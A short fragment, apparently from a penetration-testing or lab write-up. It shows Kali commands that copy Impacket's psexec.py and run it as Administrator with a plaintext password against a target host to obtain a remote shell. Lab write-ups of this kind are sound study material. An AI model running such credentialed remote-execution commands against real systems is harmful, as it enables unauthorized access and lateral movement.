 ```bash - kali
cp /usr/local/bin/psexec.py .
```

```python - kali
python3 psexec.py Administrator:cnt4weRAbtXMTSVV@$TARGET
```
